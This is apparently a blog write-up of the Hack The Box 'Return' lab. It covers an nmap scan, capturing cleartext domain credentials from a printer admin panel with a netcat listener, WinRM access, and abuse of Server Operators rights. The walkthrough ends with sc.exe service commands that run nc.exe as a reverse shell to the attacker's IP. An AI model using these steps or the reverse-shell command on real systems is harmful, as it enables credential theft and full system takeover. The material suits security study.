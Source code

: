 ```yaml
---
layout: single
title: Hack The Box - Return
permalink: /htb-return/
excerpt: "Return is an easy machine from the HacktheBox platform. This machine has the webserver which is the Admin Printers Panel without authentication need it to view it and can easily grab the credentials. It also has a user that belongs to the Server Operators group that we can abuse and gain the system shell."
classes: wide
header:
  teaser: "/assets/images/htb/return/return.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
tags:
  - file misconfiguration
  - printers
  - server operators
  - sc.exe
---
```


![1](/assets/images/htb/return/return.png)

### <font color="#9bffc8">Nmap</font>

First, let's start scanning the IP address with the Nmap.

#### result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

### <font color="#9bffc8">Http</font>

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.

![1](/assets/images/htb/return/printer-home.png)

It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!

![1](/assets/images/htb/return/printer-settings.png)

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

### <font color="#9bffc8">NetCat</font>

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.

![1](/assets/images/htb/return/printer-tun0.png)

![1](/assets/images/htb/return/nc-clear-pass.png)

In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

### <font color="#9bffc8">Evil-WinRM</font>

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.

![1](/assets/images/htb/return/evil-winrm-svc-printer.png)

YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

### <font color="#9bffc8">Server Operators</font>

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 

![1](/assets/images/htb/return/whoami-all.png)

Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

### <font color="#9bffc8">nc.exe</font>

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.

![1](/assets/images/htb/return/nc-exe-download.png)

### <font color="#9bffc8">System Shell</font>

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```

![1](/assets/images/htb/return/system-shell.png)

TA DAAA!!! now I'm an `authority\system`.
